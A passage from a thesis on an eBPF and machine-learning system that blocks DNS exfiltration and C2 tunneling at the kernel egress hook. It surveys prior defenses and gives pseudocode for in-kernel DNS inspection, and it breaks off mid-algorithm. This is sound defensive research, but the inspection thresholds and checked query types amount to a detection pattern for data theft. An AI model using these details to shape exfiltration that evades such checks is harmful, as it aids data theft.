\citeauthor{9165454} explored DNS-related defenses using eBPF, leveraging XDP to mitigate DNS water torture DDoS attacks by analyzing queries directly at the network interface of authoritative DNS servers \cite{9165454}. Although effective for volumetric DDoS mitigation, their approach is limited in scope and does not address low-volume, stealthy data exfiltration. Similarly, \citeauthor{bertin2017xdp} proposed an XDP-based strategy to mitigate ingress layer DDoS floods, such as TCP SYN and UDP amplification attacks \cite{bertin2017xdp}. However, this technique also fails to handle sophisticated or covert DNS-based exfiltration threats.
Based on the current literature, \citeauthor{steadman2021dnsxp} presents the only known eBPF-based system specifically aimed at preventing DNS exfiltration. Their approach combines eBPF and SDN to enforce static rules in the data plane while performing flow analysis in the control plane \cite{steadman2021dnsxp, 8725640}. However, their design attaches eBPF programs to the XDP layer, which is only suitable for ingress traffic, which limits its effectiveness against exfiltration. Moreover, reliance on static rules increases false-positive rates and restricts adaptability to novel attack patterns. The use of P4 switches and packet mirroring to the SDN controller also introduces latency, hindering real-time enforcement. Moreover, their evaluation was not able to prevent stealthy exfiltration, leading to data loss with more stealthy traffic mirroring to the control plane. Similarly, enterprise tools such as Isovalent Cilium support eBPF-based Kubernetes network policies at layers L3–L7 \cite{zavarella2022methodology, 10.1145/3651890.3672227}. Although DNS-aware L7 policies allow domain-level whitelisting, they lack dynamic blacklisting and are not designed to detect exfiltration behaviors. Open-source tools such as Microsoft's Inspector Gadget also rely on static rules defined in the userspace and do not provide deep kernel-level dynamic enforcement mechanisms. These limitations highlight the need for a comprehensive eBPF-based solution that operates at the egress point and supports dynamic security enforcement not only inside the kernel via eBPF but also in a distributed environment with dynamic domain blacklist to combat DGA. 
% This project addresses that gap by combining deep packet inspection in the kernel with real-time DNS anomaly detection powered by userspace deep learning models. The proposed system enables low-latency, adaptive enforcement against unauthorized DNS communication, directly within the Linux kernel.

\section{Machine Learning for Detecting DNS Data Exfiltration}
Advancements in network security have significantly improved DNS exfiltration detection, often using machine learning to analyze anomalies in traffic volume and rate, as well as for lexical analysis of exfiltrated DNS queries. Common solutions combine DPI with anomaly detection of traffic volume and timing, identifying potential threats using DNS firewalls or intrusion detection systems. For C2-based exfiltration, \citeauthor{apt-process} employs behavioral analysis that integrates PowerShell activity and backdoors with DNS tunneling for APT detection \cite{apt-process}. Similarly, \citeauthor{Das} trains ML models on real malware samples from financial institutions, while \citeauthor{8717806d} uses Isolation Forest for real-time detection \cite{Das,8717806d}. However, these methods focus on detection, not prevention, and struggle against stealthy, persistent C2 channels.

\citeauthor{bilge2011exposure} and \citeauthor{antonakakis2010building} introduced DNS server-side solutions such as EXPOSURE and NOTOS, which rely on passive analysis of large datasets, extracting domain features to flag malicious activity \cite{bilge2011exposure, antonakakis2010building}. Although effective in identifying botnet C2 and spamming domains, these approaches lack real-time enforcement capabilities and cannot block payload execution. Similarly, the models proposed by \citeauthor{DBLP:journals/corr/abs-1709-08395} and \citeauthor{10.1145/3230833.3233278} use techniques based on entropy, timing, and anomalies to detect low-throughput DNS tunneling \cite{DBLP:journals/corr/abs-1709-08395, 10.1145/3230833.3233278}. However, these methods remain inherently reactive, relying on historical traffic patterns and often failing against slow, stealthy exfiltration tactics.

\citeauthor{9486400} propose mitigation efforts involving mobile agents that introduce latency, suffer false positives, and lack scalability \cite{9486400}. Similarly, \citeauthor{haider2024c2} propose the C2 Eye framework to detect C2 attacks in supply chains but do not address the damage caused by C2 in distributed environments \cite{haider2024c2}. Even promising tools like Process DNS, developed by \citeauthor{sivakorn2019countering}, correlate DNS traffic with userspace processes to detect C2 activity \cite{sivakorn2019countering}. However, these tools remain vulnerable to privilege escalation and evasion due to limited kernel integration and the absence of fine-grained, kernel-enforced mandatory access controls.

Overall, most ML-based DNS security tools are limited by userspace-only architectures. They lack in-kernel inspection, cross-protocol correlation, and visibility into port layer obfuscation, such as DNS over non-standard ports. These tools operate passively, disconnected from real-time enforcement, and do not offer a preemptive response to emerging threats. Although lexical payload analysis may help classify anomalies quickly, behavioral models still lag behind, detecting threats only after execution or data exfiltration has occurred. Hence, existing researched solutions fundamentally fail to prevent advanced C2 behavior such as remote code execution, port forwarding, or shell access. They rarely address real-world adversary emulation or modern C2 vectors and remain ineffective against multiplayer C2 operations, botnet-based attacks, or DGA. Despite incremental progress, no existing solution offers real-time DNS exfiltration prevention with implant termination, dynamic in-kernel security policy enforcement, negligible or zero data loss, adaptive domain blacklisting, and cloud-native scalability. Userspace-only systems lack the ability to inspect low-level system state—especially near the NIC—and instead rely on passive traffic analysis from centralized locations. This limits their ability to enforce fine-grained controls needed for modern threat defense. Real-time kernel-level defenses are essential to ensure data sovereignty and integrity with the speed and precision-based response to combat emerging threats.

\section{Enterprise Solutions to Prevent DNS Data Exfiltration}
Akamai’s ibHH algorithm leverages information heavy hitters for real-time DNS exfiltration detection as explained by \citeauthor{ozery2023information} by quantifying unique data transmitted from DNS subdomains to their domains, using a fixed-size cache for efficient processing \cite{ozery2023information}. Although DNS firewalls such as Akamai and AWS Route 53 can detect tunneling and DGA activity using volume thresholds and anomaly rules, they lack direct endpoint prevention, which is essential to minimize data loss and reduce dwell time \cite{ansari2020reinforcing}. These systems often fail against APT malware that employs slow and stealthy C2 patterns and requires static manual policies that are ineffective against DGA. 
Route 53 also lacks enhanced observability and cross-protocol correlation, limiting its ability to enforce Layer 3 blocks through AWS network firewalls. Similarly, Cloudflare, Akamai, and AWS proprietary DNS firewalls are optimized for DDoS mitigation, but fail against sophisticated exfiltration or insider threats using DNS-based C2. Infoblox adds hybrid agent-based enforcement and centralized threat intelligence, and Broadcom’s Carbon Black blocks endpoint processes, but both are based on user-space traffic analysis \cite{ahmed2019monitoring}. In contrast, eBPF enables in-kernel enforcement with fine-grained visibility, offering significantly stronger defense against DNS exfiltration.


% ========== Chapter 2
\chapter{Implementation}
This chapter explains the architecture of the security framework and its individual components, first highlighting the overall framework, followed by a detailed breakdown of each component.
\section{Security Framework Overview}
The implemented security framework uses an endpoint-centric architecture to defend against DNS-based C2 and tunneling attacks in real time. It embeds DNS exfiltration defenses directly into the operating system using eBPF, enabling in-line mitigation and malicious process containment. Network policies are dynamically enforced within the kernel network stack to block C2 communication, while malicious processes are terminated through integration with kernel syscall layer all coordinated by a lightweight userspace eBPF agent in userspace. To ensure scalability, the framework streams threat events asynchronously, enabling cross-node security enforcement across all nodes in the data plane. It also supports dynamic domain blacklisting on the DNS server to proactively disrupt DGA-based threats. The following subsections describe the core components of the framework in detail. \footnote{Appendix B provides additional information about DGA.}


\subsection{Data Plane}
The data plane consists of distributed nodes running lightweight eBPF agents, implemented entirely in Golang for high performance and minimal memory overhead. Operating in userspace, each agent dynamically injects eBPF programs into the kernel’s TC layer at the egress hook of physical network interfaces, enabling in-kernel DPI to detect and block exfiltrated DNS traffic over UDP. In addition to TC filters, agents deploy auxiliary eBPF programs at various kernel hook points: kprobes to monitor the creation of new network devices, raw tracepoints to track process termination, and cgroup socket hooks to retrieve internal kernel process structures (\texttt{task\_struct}), especially on kernels below version 5.2 where TC lacks direct task access. Integration with Linux Security Modules (LSM) ensures the integrity of all injected eBPF programs, safeguarding the kernel from tampered malicious eBPF bytecode. Each agent supports two configurable prevention modes, managed via a dedicated eBPF map injected into the kernel. These modes can be toggled at runtime from userspace and are enabled by default to provide comprehensive protection against DNS exfiltration attack vectors.\footnote{Appendix A provides details of eBPF integration with LSM.}

\begin{itemize}[itemsep=1pt,parsep=0pt]
    \item \textbf{Strict Enforcement Active Mode}: DNS packets over standard ports (DNS: 53, mDNS: 5353, and LLMNR: 5355) are scanned in-kernel using eBPF at the TC egress hook. Malicious packets are immediately dropped. If classification exceeds eBPF instruction limits, the packet is redirected to userspace for further inspection. The eBPF agent sniffs redirected traffic and either checks it against a domain blacklist cache or performs inference using deep learning model to detect data obfuscation inside DNS. Benign packets are retransmitted using high-speed socket options such as \texttt{AF\_PACKET} or \texttt{AF\_XDP} bypassing kernel network stack, while malicious ones are dropped and their domains added to the blacklist cache in userspace.
    
    \item \textbf{Process-Aware Adaptive Passive Threat Hunting Mode}: This mode prevents DNS exfiltration when DNS is layered over non-standard UDP ports. Suspicious packets are cloned to userspace for analysis while the original packet is allowed to proceed. If the packet is deemed malicious, the originating process is flagged in the eBPF maps, and all subsequent DNS packets from that process are dropped in the kernel. This effectively disrupts communication between the C2 implants and remote servers. The mode is particularly effective against stealth techniques that rely on port obfuscation.
    
\end{itemize}
\newpage
In addition to performing deep packet inspection, the eBPF agents manage network namespaces and virtual bridges using the Linux virtual ethernet bridge driver. The topology shown in \hyperref[sec:dp_eBPF_agent_net_topology]{Figure 4.1} combines Linux network namespaces with multiple pairs, acting as Layer 2 and Layer 3 bridges. Agents also maintain file descriptors to their eBPF maps, enabling efficient kernel-userspace communication and advanced runtime state analysis. The lifecycle of each eBPF program is tightly managed by the agent, which operates with elevated privileges to control the kernel network stack, syscalls, and the relevant kernel subsystems. Some of the kernel capabilities required for the agent are detailed in \hyperref[sec:dp_kernel_cap]{Table 4.1}. Both prevention modes, active and passive, support real-time enforcement, including the termination of processes responsible for repeated exfiltration beyond configurable thresholds.
% Filtering logic in the kernel is driven by adaptive policies encoded in eBPF maps and applied immediately after raw DNS parsing from the SKB. 
On the userspace side, the agent performs low-latency inference using quantized ONNX models, exports telemetry to observability backends, and streams threat events to a centralized message broker for controller-side processing. These agents also manage domain caches to improve performance, relying on a cache read-through policy. All agent components, including eBPF maps in the kernel and userspace caches, are dynamically reprogrammable at runtime via the control plane, enabling flexible and real-time reconfiguration of agents in the data plane. To complement egress filtering, agents also inspect ingress traffic to detect C2 response patterns, leveraging the same inference engine and LRU cache used for egress analysis.
% \vspace{z}
% \begin{minipage}{\textwidth}
\begin{table}[htbp]
\centering
\begin{tabular}{|l|p{10cm}|}
\hline
\textbf{Kernel Capability} & \textbf{Description} \\
\hline
\texttt{CAP\_BPF} & Load eBPF, manage maps \\
\hline
\texttt{CAP\_SYS\_ADMIN} & Attach BPF, mount BPF FS \\
\hline
\texttt{CAP\_SYS\_PTRACE} & Support tracepoint attachment to kernel tracepoints  specifically to kernel process scheduler \\ 
\hline
\texttt{CAP\_NET\_ADMIN} & Manage netdev creation and tc/xdp/cgroup filters attachment \\
\hline
\texttt{CAP\_NET\_RAW} & Send/receive raw packets from netdev tap RX queues particularly via AF\_PACKET sockets  \\
\hline
\texttt{CAP\_IPC\_LOCK} & Lock BPF memory \\
\hline
\end{tabular}
\caption{Linux Kernel Capabilities Required for eBPF Agent at Endpoint}
\label{sec:dp_kernel_cap}
\end{table}
% \end{minipage}

\begin{table}[htbp]
\centering
\resizebox{\textwidth}{!}{%
\begin{tabular}{|p{2.8cm}|p{2.8cm}|p{2.6cm}|p{10cm}|}
\hline
\textbf{eBPF Program Type} & \textbf{Agent Mode} & \textbf{Injection Point} & \textbf{Description} \\
\hline
\texttt{SCHED\_ACT} & Active, Passive & Physical NICs & Performs in-kernel DNS DPI at TC egress. Interacts with maps and redirects packets to userspace or tracks process info based on mode. \\
\hline
\texttt{SCHED\_ACT} & Active & veth bridges & Verifies packet integrity using \texttt{skb\_hash} for redirected DNS traffic over namespaces. \\
\hline
\texttt{KPROBE} & Active & Tun/Tap driver kernel functions & Detects virtual device creation to attach DNS filters dynamically. \\
\hline
\texttt{CGROUP\_SKB} & Active, Passive & Sockets cgroups & Get the process info for current UDP packet, update information to pinned map shared with core egress TC program. \\
\hline
\texttt{TRACEPOINT} & Passive & process\_exit & Cleans up eBPF maps when flagged processes exit before agent-enforced termination. \\
\hline
\texttt{LSM} & Active, Passive & \texttt{BPF\_PROG\_LOAD} & Intercepts eBPF program loading syscalls. Verifies integrity via kernel keyring to block malicious eBPF code injection. \\
\hline
\end{tabular}%
}
\caption{eBPF Programs Managed by the eBPF Agent}
\label{sec:dp_kernel_prog_ty}
\end{table}

\begin{figure}[H]
\centering

\includegraphics[width=0.81\textwidth]{UWThesis/images/ebpf_network_topology.png}
\caption{eBPF Agent-created network topology at endpoint}
\label{sec:dp_eBPF_agent_net_topology}
\end{figure}

\subsection{Distributed Infrastructure}
In addition to the data plane nodes, the framework includes an open-source PowerDNS setup consisting of a Recursor for upstream resolution and an authoritative server configured with a Postgres backend. Although actual internal domains are not served, the authoritative server is used to carry out DNS C2 and tunneling attacks by generating malicious domains using DGA. This design replicates the behavior of the real-world DNS server commonly deployed by enterprises.
All data plane nodes resolve DNS through the PowerDNS Recursor, which is equipped with interceptors that inspect queries before forwarding. These interceptors run ONNX-based deep learning inference to detect threats, specifically on TCP-based DNS traffic offloaded from eBPF agents. Kafka acts as the message broker for streaming threat events. Additionally, the recursor integrates with dynamic RPZ stored in Postgres, allowing the controller to blacklist second-level domains (SLD) linked to malicious activity, as detailed in the next section.

\subsection{Control Plane}
The control plane consists of a centralized analysis server that consumes threat events from Kafka topics, streamed and updated by eBPF agents running in the data plane. Based on these consumed event payloads, the control plane dynamically blacklists malicious SLD on the DNS server, thereby safeguarding all endpoints in the data plane that utilize the DNS server. Additionally, the system supports full data plane reprogramming by publishing Kafka topics consumed by eBPF agents, allowing them to rehydrate their local blacklist domain caches and immediately enforce updated policies. This design drastically reduces DNS resolution hops from data plane nodes to the DNS server by enforcing blacklists locally.



\section{Data Plane}
The eBPF agent implementation deployed on each node in the data plane is organized into six core components. First, \hyperref[sec:active]{active mode} introduces the strict enforcement path, where suspicious DNS traffic is live redirected to userspace and dropped in real time if it is found malicious. Second, \hyperref[sec:passive]{passive mode} describes an adaptive threat-hunting strategy that correlates DNS exfiltration with the malicious userspace process. Third, \hyperref[sec:encap]{the encapsulated phase} addresses DNS exfiltration hidden within kernel-encapsulated traffic, with prevention currently supported only in active mode. Fourth, \hyperref[sec:features]{feature analysis} outlines the extracted features used in the kernel for filtering and in userspace for deep learning–based inference. Fifth, \hyperref[sec:dataset]{datasets} lists the data sources used to train and evaluate the detection models. Finally, \hyperref[sec:model]{model architecture} and \hyperref[sec:threat-event-streaming]{threat event streaming} describe the model architecture, its serialization and quantization steps, and streaming process for prevented threat events from the agent to the centralized message brokers and metrics observability backends.

\subsection{Strict Enforcement Active Mode}
\label{sec:active}
In this mode, eBPF programs are injected and attached as direct-action filters to the TC egress hook (CLSACT QDISC) on all physical network interfaces at the endpoint. 
These eBPF programs are triggered as soon as a packet is queued by the kernel to the CLSACT QDISC for the specific netdev by invoking the (\texttt{dev\_queue\_xmit}) helper in kernel network stack. At this point, the SKB is fully constructed and ready for the TX queue, having already passed through the upper layers of the networking stack. The eBPF programs run in parallel across multiple CPU cores, with all eBPF maps declared global.
This mode implementation includes several key components. \hyperref[sec:dp_eBPF_LRU_Maps_active]{Maps} describes the structure and purpose of eBPF LRU hash maps (see \hyperref[sec:dp_eBPF_LRU_Maps_active]{Figure 4.2}). These maps track the per-packet security state and current policy status, enforced by both the kernel eBPF programs and userspace eBPF agent. Next, \hyperref[active:sec1]{Kernel eBPF filter packet classification} details how incoming packets are classified in the TC egress filter using SKB metadata, along with the TC actions taken for malicious and benign DNS packets. \hyperref[active:sec3]{Userspace eBPF agent packet handling} then explains how the sniffed packets are processed in zero-copy mode for efficient analysis. Finally, \hyperref[active:sec3]{Concurrency handling} explains how shared maps are safely accessed and updated between eBPF programs in the kernel and userspace threads of the eBPF agent.


% maps definition structure in passive phase 
\begin{figure}[htbp]
\centering

\includegraphics[width=1.0\textwidth]{UWThesis/images/map_struct_port53_active.png}
\caption{eBPF Maps structure for Agent in active phase}
\label{sec:dp_eBPF_LRU_Maps_active}
\end{figure}

% eBPF Maps
\subsubsection{\textbf{eBPF Maps in Active mode}}
\begin{enumerate}[itemsep=1pt,parsep=0pt]
\label{sec:maps}
\item \textbf{DNS Exfiltration Feature Map:} \\
Key: Feature identifier used for DNS traffic analysis. \\
Value: Filtering or classification parameter applied by the eBPF TC egress program.

\item \textbf{Packet Redirection Tracking Map:} \\
Key: DNS transaction ID \\
Value: Kernel monotonic timestamp (in nanoseconds). Used to track suspicious packets redirected across interfaces using non-maskable interrupts (NMI) safe timekeeping.

\item \textbf{Timing Attach Prevention Map:} \\
Key: Monotonic timestamp (in nanoseconds) \\
Value: Scanned flag (true/false). Utilized by userspace eBPF agent to mark packets as scanned, and by the kernel eBPF program to verify packet integrity prior to retransmission.
\end{enumerate}




\subsubsection{\textbf{eBPF kernel program packet processing in \textbf{Active} mode}}
\label{active:sec1}
When a DNS packet is transmitted over a UDP socket, it traverses the kernel network stack and is intercepted at the TC layer via the CLSACT QDISC, where an eBPF program is attached as a filter. This program processes the packet by sequentially parsing the L2–L4 headers using native kernel structures. Because DNS operates as an application layer protocol and is not natively decoded in the kernel, the eBPF program manually parses the payload beyond Layer 4. It does so by interpreting the raw SKB data using custom C structures aligned with RFC 1035, extracting critical fields such as the query ID, opcode, flags, and entries in the DNS question section for deep inspection.
If the query ID is new and the DNS question section is valid, the program evaluates against kernel features such as the presence of multiple questions or anomalous answer counts. These are treated as suspicious, particularly because C2 implants often encode data in the question section while avoiding standard DNS response behavior at the endpoint. Each feature is checked against the kernel-defined feature set (\hyperref[sec:feature-kernel]{Table 4.3}), and based on the evaluation result, the program takes immediate action using one of the following verdicts: \texttt{TC\_ACT\_SHOT} to drop the packet, \texttt{TC\_ACT\_OK} to forward it, or \texttt{bpf\_redirect} to redirect it for deeper analysis.

For packets marked suspicious, the DNS query ID and the current kernel monotonic timestamp (\texttt{bpf\_ktime\_get\_ns}) are stored in \texttt{dns\_packet\_redirection\_map} to defend against timing and brute-force evasion. Before redirection, the eBPF program retrieves metadata such as the bridge’s L3 address and \texttt{if\_index} from shared maps initialized by userspace agent. Redirection counters are updated for observability. Based on IP version, the program applies DNAT and recalculates checksums before redirecting the packet to the bridge interface controlled by the agent. For IPv6, static checksums are applied. The packet is then live redirected to the RX queue of the virtual device for userspace inspection.

After inspection, the agent re-emits the packet via an \texttt{AF\_PACKET} socket, retriggering the TC eBPF program. To prevent redirection loops or forged reinjection, the program validates the DNS query ID against \texttt{dns\_redirect\_ts\_verify\_map}, checking a stored timestamp and verification flag. If the resend is from the authorized agent, the packet is forwarded; otherwise, it is dropped to prevent evasion via timing-based or brute-force attacks. This strict verification relies on monotonic timestamps, shared kernel state, and minimal trust between userspace and kernel. \hyperref[sec:alg2]{Algorithm 2} outlines the full resend verification logic.


\subsubsection{\textbf{eBPF agent userspace packet processing in Active Mode}}
\label{active:sec2}
eBPF agent leverages kernel BPF bindings, primarily through libbpf, to abstract raw BPF syscalls. It spawns dedicated threads to continuously sniff traffic from a separate network namespace configured to handle redirected suspicious DNS traffic in active mode. Using \texttt{AF\_PACKET} sockets, the agent reads packets directly from tap interfaces or RX queues in zero-copy mode, eliminating additional buffer allocations and significantly improving performance. With access to all eBPF maps via file descriptors, the agent parses application-layer DNS payloads redirected from the kernel. The extracted features, described in \hyperref[sec:feature-userspace]{Userspace Features}, are used for detection and policy enforcement. The agent maintains two LRU caches in userspace: one for benign SLDs, sourced from Cisco’s top one million domains, and another for previously identified malicious domains. 

If a parsed SLD matches an entry in the benign cache, the packet is forwarded immediately without inference, as DNS semantics make redirection of malicious traffic through high-reputation zones impractical. Packets are forwarded via either \texttt{AF\_PACKET} or \texttt{AF\_XDP} sockets. With \texttt{AF\_XDP}, packets are injected directly into the TX queue of the device driver, bypassing kernel TC egress filters, and the associated entry in \texttt{dns\_packet\_redirection\_map} is cleared. In contrast, \texttt{AF\_PACKET} retriggers the kernel eBPF TC program. To authorize forwarding, the agent queries the redirection timestamp using the DNS transaction ID, updates \texttt{dns\_redirect\_ts\_verify\_map}, and marks the packet as scanned, allowing the eBPF program to verify and forward it.

If there is a cache miss, the agent performs live inference using the deep learning model. Malicious packets are dropped, garbage collected in userspace, blacklisted in the malicious cache, and reported via Kafka. Benign packets follow the same forwarding flow as cache hits.

Additionally, the agent exports detection events, system metrics, and kernel tracing data from eBPF ring buffers to Prometheus and monitors processes generating malicious traffic, and if a threshold is exceeded, it terminates the respective malicious process. \hyperref[sec:alg3]{Algorithm 3} details the complete userspace packet handling algorithm.

\subsubsection{\textbf{eBPF Maps concurrency handling in Active Mode}}
\label{active:sec3}
In this mode, eBPF programs use global kernel-space maps instead of isolated per-CPU maps. Since packet processing runs in parallel across multiple CPU cores, each executing the same eBPF program, concurrent access to these maps is coordinated using per-CPU kernel spinlocks. On userspace side, multiple threads spawned by the eBPF agent concurrently read and write to these shared maps. Access is synchronized using an RWMutex, restricted to userspace, to ensure thread safety. Syscalls from userspace that update the maps may be blocked and handled internally by the kernel synchronization mechanisms, as discussed earlier. This combination of kernel spinlocks and userspace locks ensures consistent and parallel packet processing across CPUs. Two primary maps are shared between kernel and userspace: \texttt{dns\_redirect\_ts\_verify\_map} and \texttt{dns\_packet\_redirection\_map}. Each uses unique keys, monotonic timestamps, and DNS query IDs to ensure atomicity and prevent stale reads, race conditions, and inconsistent updates. This ensures that no malicious DNS packets are leaked due to concurrency issues. All kernel-side updates to these maps use built-in LLVM concurrency helpers, which provide atomic operations and memory synchronization guarantees across CPUs. This enforces strict consistency and reliable control over the state of the shared map. The complete pipeline for this mode of operation, including both userspace and kernel components, is illustrated in \hyperref[sec:dp-active-phase]{Figure 4.3}.

% Kernel ensures synchronization of from multiple CPU's executing eBPF programs parallelly and accessing single map using kernel spinlocks.  Moreover, userspace threads spawned by eBPF agent also perform update 



% The eBPF programs in this mode use global (non-per-CPU) maps inside kernel to support concurrent reads and writes. These maps are protected by BPF spinlocks, which are NUMA-aware and designed for SMP systems, an extension of kernel spinlocks that ensures cache coherence and atomic access per CPU. Every concurrent thread in userpaace processing and sniffing packets parallelly from network namespace and if performing updates over shared eBPF map always use RWMutex in userspace for synchronization Since eBPF map FDs are not shared across userspace processes, the maps are exclusively created by the single eBPF agent process in userspace ensuring reference count for all the owned map from being garbage collected.  



% % alg 1
% \enlargethispage{4\baselineskip}
\begin{algorithm}[H]
\caption{Egress TC-Based DNS Raw SKB Inspection in \textbf{Active} Mode}
\label{sec:alg1}
\SetKwInOut{Input}{Input}
\SetKwInOut{Output}{Output}

\small % Reduce font size for the entire algorithm
\setstretch{0.9} % Reduce line spacing for more compactness

\Input{Socket buffer (\texttt{skb}), eBPF LRU hash maps: \texttt{dns\_limits}, \texttt{dns\_packet\_redirection\_map}, \texttt{node\_agent\_config}}
\Output{
 \quad Packet Action: \texttt{TC\_ACT\_SHOT}, \texttt{TC\_ACT\_OK} \\ 
 \quad eBPF Map Updates \texttt{bpf\_map\_updates} 
}

\tcp{Parse skb layers; ensure skb->data\_ptr remains memory bound for eBPF verifier}
Parse Layer 2 (Ethernet) from \texttt{skb}\;
\If{VLAN (\texttt{802.1Q} or \texttt{802.1AD}) is present}{
    \If{\texttt{skb->data\_ptr} exceeds \texttt{skb->data\_end}}{
        Drop packet via \texttt{TC\_ACT\_SHOT}\;
    }
    Extract the inner encapsulated protocol (\texttt{h\_proto}) from VLAN header\;
}
Parse Layer 3 (Network) from \texttt{skb}\;
\If{\texttt{skb->data\_ptr} exceeds \texttt{skb->data\_end}}{
    Drop packet via \texttt{TC\_ACT\_SHOT}\;
}
Parse UDP Layer 4 (Transport) from \texttt{skb}\;
\If{\texttt{skb->data\_ptr} exceeds \texttt{skb->data\_end}}{
    \Return \texttt{TC\_ACT\_SHOT}\;
}
\If{\texttt{skb->protocol} = \texttt{IPPROTO\_TCP}}{
    \Return \texttt{TC\_ACT\_OK}\;
}

\If{\texttt{udp->dest} $\neq$ 53 \textbf{and} \texttt{udp->dest} $\neq$ 5353 \textbf{and} \texttt{udp->dest} $\neq$ 5355}{
    \tcp{This is not standard DNS traffic; over MDNS, DNS, LLMNR}
    \Return \texttt{TC\_ACT\_OK}\;
}

% Step 1: Extract DNS Header Fields
Parse Layer 7 DNS (Application) from \texttt{skb}\;
\If{\texttt{skb->data\_ptr} exceeds \texttt{skb->data\_end}}{
    Drop packet via \texttt{TC\_ACT\_SHOT}\;
}
Extract \texttt{qd\_count}, \texttt{ans\_count}, \texttt{auth\_count}, and \texttt{add\_count}\;

% Step 2: Header Anomaly Check
\If{\texttt{qd\_count} $>$ 1 \textbf{or} \texttt{auth\_count} $>$ 1 \textbf{or} \texttt{add\_count} $>$ 1}{
    Perform \texttt{bpf\_map\_updates}\;
    \Return\;
}

% Step 3: Parse Question Record and Fetch Limits
Parse first question record from \texttt{skb}\;
\tcp{Extract Kernel DNS features from dns\_limits map}
Fetch \texttt{n\_lbls}, \texttt{dom\_len}, \texttt{subdom\_len}, \texttt{dom\_len\_no\_tld}, \texttt{q\_class}, \texttt{q\_type} from \texttt{dns\_limits}\;

% Step 4: Label Count Check
\If{\texttt{n\_lbls} $\leq$ 2}{
    \Return \texttt{TC\_ACT\_OK}\;
}

% Step 5: Label and Domain Length Checks
\If{
    Any of (\texttt{n\_lbls}, \texttt{dom\_len}, \texttt{subdom\_len}, \texttt{dom\_len\_no\_tld}) is in [min, max] range
}{
    Perform \texttt{bpf\_map\_updates}\;
    \Return\;
}

\If{
    Any of (\texttt{n\_lbls}, \texttt{dom\_len}, \texttt{subdom\_len}, \texttt{dom\_len\_no\_tld}) exceeds its maximum threshold
}{
    \Return \texttt{TC\_ACT\_SHOT}\;
}

% Step 6: QTYPE Filtering
\If{\texttt{q\_type} $\in$ \{\texttt{TXT}, \texttt{ANY}, \texttt{NULL}\}}{
    \Return \texttt{bpf\_map\_updates}\;
}

% Step 7: Default Case
\Return \texttt{TC\_ACT\_OK}\;

\end{algorithm}

% alg 2
\begin{algorithm}[H]
\caption{eBPF Map Handling Around skb\_redirect and AF\_PACKET in \textbf{Active} Mode}
\label{sec:alg2}
\SetKwInOut{Input}{Input}
\SetKwInOut{Output}{Output}

\small
\setstretch{0.5}
\SetAlgoNlRelativeSize{-1}

\Input{%
  \quad \texttt{skb} (socket buffer),\\
  eBPF LRU hash maps: \\
  \quad \texttt{netlink\_links\_config}, \\
  \quad \texttt{dns\_packet\_redirection\_map},\\
  \quad \texttt{dns\_redirect\_ts\_verify\_map}, \\  
  \quad \texttt{redirect\_count\_map} \\ 
  \quad \texttt{skb\_netflow\_integrity\_verify\_map}
}

\Output{%
  \quad \texttt{bpf\_redirect} to \texttt{bridge\_if\_index}, \texttt{TC\_ACT\_SHOT}, \texttt{TC\_ACT\_OK}
}

% \tcp{Step 1: Extract Transaction ID and Determine Network Layer}
Extract DNS Layer from the packet application data\;
Get DNS transaction ID (\texttt{tx\_id}) from parsed L7 payload in \texttt{skb}\;
Determine if packet is IPv4 or IPv6 using \texttt{nexthdr} / \texttt{h\_proto} in Ethernet frame in SKB (\texttt{ETH\_P\_IPV4} / \texttt{ETH\_P\_IPV6})\;
\tcp{use the kernel skb destined netdev link index}
Extract \texttt{if\_index} from \texttt{skb}\;

\tcp{Fetch Virtualized Bridge netdev information}
Fetch \texttt{dst\_ip} from \texttt{netlink\_links\_config} with key \texttt{if\_index}\;
\tcp{Use userspace-generated random hash for skb integrity verification post live-redirect across bridge.}
Fetch \texttt{skb\_mark} from \texttt{netlink\_links\_config} with key \texttt{if\_index}\;
\tcp{\texttt{dns\_kernel\_redirect\_val} = \{\texttt{l3\_checksum}, \texttt{kernel\_time\_ns}\}}
Fetch \texttt{dns\_kernel\_redirect\_val} from \texttt{dns\_packet\_redirection\_map} with key \texttt{tx\_id}\;

\If{not \texttt{dns\_kernel\_redirect\_val}}{
  \tcp{Packet redirected; arrived at TC hook first time}

  Modify \texttt{skb} to replace destination IP with \texttt{dst\_ip} of virtual bridge\;

  \If{\texttt{ETH\_P\_IPV4}}{
    Recompute Layer 3 checksum and update in \texttt{skb}\;
    Set \texttt{l3\_checksum} = computed checksum\;
  }
  \Else{
    Set \texttt{l3\_checksum} = \texttt{0xFFFFF}\;
  }

  \If{not \texttt{skb\_mark}}{
    \tcp{Custom skb->mark per netflow computed in-kernel}
    \texttt{skb\_mark} = \texttt{bpf\_get\_prandom\_u32}
    \tcp{an integrity verify map to verify netflow per redirect from skb mark over bridge}
